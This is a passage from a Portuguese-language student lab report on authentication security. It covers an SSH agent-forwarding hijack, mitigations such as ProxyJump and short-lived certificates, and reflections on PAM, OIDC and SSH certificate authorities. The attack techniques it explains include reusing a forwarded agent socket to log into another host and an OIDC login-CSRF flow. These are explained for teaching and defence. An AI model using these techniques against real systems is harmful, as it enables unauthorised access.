\end{tcolorbox}
{\footnotesize (a) v\'itima: v\'arios sockets, s\'o um responde.}
\end{minipage}\hfill
\begin{minipage}[t]{0.49\textwidth}
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=\textwidth,boxrule=0.5pt,arc=2pt,
                   left=4pt,right=4pt,top=4pt,bottom=4pt]

\includegraphics[width=\linewidth]{G05Ex7T2.png}
\end{tcolorbox}
{\footnotesize (b) atacante: \cmd{find} vazio, agente a responder, shell em \cmd{target}.}
\end{minipage}
\caption{Ex.\ 7 --- o hijack. (a) na sess\~ao de forwarding, o socket da sess\~ao
(\cmd{.sshd.}) responde e os restantes (\cmd{.agent.} e sess\~oes antigas) n\~ao; (b) a
partir de \cmd{jump}, o \cmd{find} n\~ao encontra chaves privadas, o agente lista a chave
\emph{e} o certificado, e \cmd{ssh dev@target} autentica como \cmd{dev}.}
\label{fig:g05hijack}
\end{figure}

\begin{answer}{7a.}
O atacante n\~ao copiou nem quebrou nada: apontou \file{SSH_AUTH_SOCK} ao socket
\emph{encaminhado} e pediu ao agente --- que corre na VM --- para assinar o desafio do
\cmd{target}. A chave privada nunca saiu da workstation; o que foi delegado ao \cmd{jump}
pelo \cmd{-A} foi a \emph{autoridade para a usar}. Manter a chave secreta protege a chave,
n\~ao o servi\c{c}o de assinatura. O certificado tamb\'em n\~ao defende: \'e uma credencial
v\'alida durante toda a sua hora, e o agente transporta-a. Depois do Ex.\ 6 o \cmd{target}
s\'o aceita \cmd{publickey}, pelo que aquele login \emph{s\'o} podia ser um certificado
assinado atrav\'es do agente --- o hardening n\~ao impede o hijack, apenas garante que a
credencial usada foi a leg\'itima.
\end{answer}

\subsubsection{Exerc\'icio 8 --- mitiga\c{c}\~ao}

\begin{lstlisting}
ssh -J jump -i ~/.ssh/id_dev dev@target
dev@target: Permission denied (publickey)          # certificado expirado
ssh-keygen -s ~/.ssh/user_ca -I 'student@lab5' -n dev -z 1 -V +1h ~/.ssh/id_dev.pub
ssh -J jump -i ~/.ssh/id_dev dev@target
1a097db4c2a2:~$
\end{lstlisting}

A primeira tentativa falhou porque o certificado caducou entre o hijack e o comando: o
\'ultimo tinha validade \cmd{12:17:00 -> 13:18:25} em hora local da VM (\cmd{WEST},
UTC+1), e a sess\~ao j\'a ia em \cmd{15:01}. O log do servidor diz o que o cliente esconde:

\begin{lstlisting}
Refusing certificate ID "student@lab5" serial=1 signed by ED25519 CA
  SHA256:EiNe5...Bfvo: Certificate invalid: expired
\end{lstlisting}

Este incidente \'e a demonstra\c{c}\~ao de 2a e 5b: expirado e revogado produz a mesma
mensagem no cliente, e s\'o o log do \cmd{target} os separa.

\begin{answer}{8a.}
O \cmd{ProxyJump} encaminha um \emph{fluxo TCP}, n\~ao uma credencial: a sess\~ao SSH ---
e portanto a autentica\c{c}\~ao --- \'e ponta-a-ponta entre a VM e o \cmd{target}, pelo que
o \cmd{jump} s\'o transporta texto cifrado e nunca recebe um socket que saiba assinar. O
\cmd{-A} encaminha uma \emph{capacidade}.

Regra para um operador: \cmd{-A} apenas para um host que se controla e em que se confia
inteiramente, numa sess\~ao curta; nunca para um basti\~ao que n\~ao se administra. O
default seguro \'e \cmd{ForwardAgent no} (global ou por \cmd{Host}) e usar \cmd{-J} para
encadear. Defesa em profundidade: \cmd{ssh-add -c}, que pede confirma\c{c}\~ao a cada uso
--- um socket sequestrado passa a ser um pedido que n\~ao se esperava ---,
\cmd{ssh-add -t} para limitar a vida da chave no agente, certificados de vida curta para
limitar o raio de dano, e assinar certificados sem a extens\~ao
\cmd{permit-agent-forwarding} (\cmd{-O clear}) para que a pr\'opria credencial recuse
encaminhamento. Nota de assimetria: o \cmd{jump} continua a autenticar por \emph{chave
crua} em \cmd{authorized\_keys}, o que \'e precisamente o problema n\~ao resolvido da
Parte A e o que torna um basti\~ao comprometido t\~ao valioso.
\end{answer}

%==============================================================================
\appendix
\section{Reflex\~oes (Labs 3, 4 e 5)}

\begin{callout}{Lab 3 --- PAM (200--300 palavras)}
Autenticar no Linux n\~ao \'e uma fun\c{c}\~ao, \'e uma pilha que cada servi\c{c}o monta. O
\cmd{sudo} quase n\~ao tem regras pr\'oprias: puxa tudo de \cmd{common-auth}. Bom para
administrar (um ficheiro muda tudo; MFA soma-se sem tocar em c\'odigo), mau quando se
erra (uma linha parte todos os inclu\'idores; aqui bastou trocar uma linha para o
\cmd{sudo} negar tudo, e o PAM negou em modo fechado, como deve ser). A minha primeira
pilha do \cmd{faillock} com a ordem trocada negou at\'e a password certa: a ordem \'e a
sem\^antica.

Os dois controlos t\^em custo. O bloqueio fecha a adivinha\c{c}\~ao online (tr\^es erros e
a conta fecha) mas vira DoS: quem souber o username bloqueia-me. Ao operador diria:
ganhamos anti-brute-force, perdemos disponibilidade --- usar tempos curtos, contar por
origem, deixar o root de fora. A qualidade de password fecha as fracas \`a nascen\c{c}a,
mas empurra para papel e variantes previs\'iveis. Seguran\c{c}a aqui \'e trocar
probabilidade de intrus\~ao por disponibilidade e usabilidade, e medir depois
(\cmd{faillock}, rejei\c{c}\~oes do \cmd{pwquality}).
\end{callout}

\begin{callout}{Lab 4 --- OIDC (200--300 palavras)}
Centralizar no dex compra \emph{single sign-on} real: uma s\'o credencial
(\cmd{student@ssc.local}), uma s\'o pol\'itica, e os clientes deixam de ver passwords ---
s\'o verificam assinaturas contra o \cmd{jwks\_uri}, como fiz com o \cmd{verify.py}. O
pre\c{c}o \'e concentrar tudo no mesmo segredo: a chave de assinatura e a base de
utilizadores. Comprometer o IdP \'e forjar identidade \`a vontade --- emitir ID tokens com
qualquer \cmd{sub}/\cmd{email}, \cmd{aud} e \cmd{nonce} v\'alidos --- e com isso entrar em
todos os clientes de uma vez, al\'em de emitir access tokens. De incidente local passa a
comprometer o ecossistema inteiro.

O segundo ponto aprendi no \cmd{client.py}: validar o token n\~ao fecha o login. Com tudo
de 5c a passar, o \cmd{PENDING} continua global --- aceita qualquer \cmd{state} que ele
pr\'oprio emitiu, sem o ligar ao browser que iniciou o fluxo. Um atacante inicia o seu
pr\'oprio login, obt\'em um par \cmd{code+state} v\'alido (para a identidade dele), e leva
o browser da v\'itima a visitar esse \cmd{/callback?code\&state}: o cliente troca com o
seu \cmd{verifier} guardado e entrega \`a v\'itima uma sess\~ao autenticada como o
atacante (login CSRF / fixa\c{c}\~ao de sess\~ao). O token est\'a genu\'ino e mesmo assim o
login \'e inseguro: a valida\c{c}\~ao prova que o token \'e verdadeiro, n\~ao que pertence
a este browser. Seguran\c{c}a aqui j\'a n\~ao \'e criptografia do token, \'e gest\~ao de
sess\~ao --- \cmd{state}, \cmd{nonce} e \cmd{verifier} ligados ao iniciador antes de
aceitar a resposta.
\end{callout}

\begin{callout}{Lab 5 --- Certificados SSH (200--300 palavras)}
Uma CA SSH e o dex fazem a mesma jogada: substituem ``cada host confia em cada chave'' por
``todos confiam num s\'o emissor''. O que centralizam \'e a decis\~ao de \emph{quem \'e
quem} --- e o novo ponto \'unico de falha \'e a chave privada da CA. Neste laborat\'orio
ela n\~ao tem passphrase por ser descart\'avel; uma CA a s\'erio \'e a chave mais
protegida que se possui. Quem a tiver assina qualquer principal para qualquer host, tal
como quem comprometer o IdP emite ID tokens para qualquer cliente. A diferen\c{c}a de
alcance: a CA n\~ao guarda utilizadores, s\'o emite; o IdP guarda credenciais e sess\~oes.

No caso do certificado de \cmd{ops} revogado, quem responde \'e a revoga\c{c}\~ao
(KRL + \cmd{RevokedKeys}): age agora, sobre aquela credencial. A autentica\c{c}\~ao n\~ao
serve --- o certificado era genu\'ino; a autoriza\c{c}\~ao por principals tamb\'em n\~ao
--- o principal \cmd{ops} era leg\'itimo; a validade tamb\'em n\~ao --- faltava quase uma
hora. S\'o a revoga\c{c}\~ao distingue ``deixou de ser aceit\'avel'' de ``expirou'', e
esta distin\c{c}\~ao s\'o existe no log do servidor: o cliente v\^e a mesma recusa nos
quatro casos.

O hijack n\~ao quebrou criptografia nem roubou chave: usou um default conveniente
(\cmd{-A}) e um host interm\'edio comprometido --- exactamente a forma do socket do Docker
e do cron world-writable do Lab 1. N\~ao \'e falha de algoritmo, \'e autoridade ambiente
herdada por quem controla o meio. A regra que retiro: o agente s\'o se empresta a quem j\'a
confio para a chave; para atravessar um basti\~ao, \cmd{ProxyJump}.
\end{callout}

\end{document}
